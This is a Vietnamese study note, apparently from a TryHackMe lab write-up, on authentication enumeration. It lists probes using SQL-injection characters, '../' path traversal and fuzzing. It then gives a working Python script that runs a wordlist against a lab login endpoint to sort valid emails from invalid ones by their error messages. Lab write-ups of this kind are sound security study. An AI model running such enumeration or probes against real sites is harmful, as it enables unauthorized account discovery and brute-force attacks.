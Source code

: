 ```yaml
---
title: 'Enumeration & Brute Force'
category: 'learning'
date: '26-01-2025'
---
```


# Chuẩn bị
- Kiến thức cơ bản về giao thức HTTP/HTTPS, bao gồm request/response và status code.
- Sử dụng web proxy như BurpSuite.
- Sử dụng Linux.

# Authentication Enumeration
## Authentication Enumeration
### Identifying Valid Usernames
- Xác định định đúng username đương nhiên giúp cho việc brute force nhanh hơn và chính xác hơn. 
- Có thể xác định được username đúng thông qua *Quên mật khẩu* hay thông báo từ hệ thống.
### Password Policies
- Có thể biết được đơn giản qua việc xem ở *Đăng ký*
- Từ đấy dự đoán được độ phức tạp của mật khẩu, điều chỉnh chiến lược, bỏ bớt mật khẩu vi phạm.
## Common Places to Enumerate
- Đăng ký
- Quên mật khẩu
- Thông báo lỗi
- Data từ lần vi phạm dữ liệu trước đó
# Enumerating Users via Verbose Errors
## Inducing Verbose Errors
- Cố gắng login sai: Đôi khi login làm hệ thống bắn ra các thông báo có lợi như "username not exist" hay "password incorrect".
- SQL Injection: Với loại này thì ta điền thêm vài ký tự đặc biệt vào nhưng nơi dự đoán có liên quan với DB, ví dụ như thêm `' " -- # ;`.
- LFI: Thử truy cập vài đường dẫn không được phép hoặc thêm thử `../` vào một số nơi có thể gây lỗi để xem.
- Thao túng form: Việc điền sai vài parameter hay bấm nút ko dc phép bấm thử cũng là một lựa chọn.
- Application Fuzzing: Gửi một đống input thứ mà hệ thống không lường trước được cũng là cách, một số tool hay dùng như `BurpSuite` hay `ffuf` hay được tin dùng.
## Thử nghiệm
> Tất cả các tài nguyên dưới đây là từ **TryHackMe**
- Ta có một web lab nhỏ có giao diện như sau:
![alt text](image.png)
- Nếu nhập đúng email thì thông báo có chút khác biệt:
![alt text](image-1.png)
- Dựa trên đây ta có một script nhỏ bằng python:
```python
import requests
import sys

def check_email(email):
    url = 'http://enum.thm/labs/verbose_login/functions.php'  # Location of the login function
    headers = {
        'Host': 'enum.thm',
        'User-Agent': 'Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0',
        'Accept': 'application/json, text/javascript, */*; q=0.01',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
        'X-Requested-With': 'XMLHttpRequest',
        'Origin': 'http://enum.thm',
        'Connection': 'close',
        'Referer': 'http://enum.thm/labs/verbose_login/',
    }
    data = {
        'username': email,
        'password': 'password',  # Use a random password as we are only checking the email
        'function': 'login'
    }

    response = requests.post(url, headers=headers, data=data)
    return response.json()

def enumerate_emails(email_file):
    valid_emails = []
    invalid_error = "Email does not exist"  # Error message for invalid emails

    with open(email_file, 'r') as file:
        emails = file.readlines()

    for email in emails:
        email = email.strip()  # Remove any leading/trailing whitespace
        if email:
            response_json = check_email(email)
            if response_json['status'] == 'error' and invalid_error in response_json['message']:
                print(f"[INVALID] {email}")
            else:
                print(f"[VALID] {email}")
                valid_emails.append(email)

    return valid_emails

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python3 script.py <email_list_file>")
        sys.exit(1)

    email_file = sys.argv[1]

    valid_emails = enumerate_emails(email_file)

    print("\nValid emails found:")
    for valid_email in valid_emails:
        print(valid_email)

```
- Scan nửa ngày thif cuối cùng cũng có cái valid:
![alt text](image-2.png)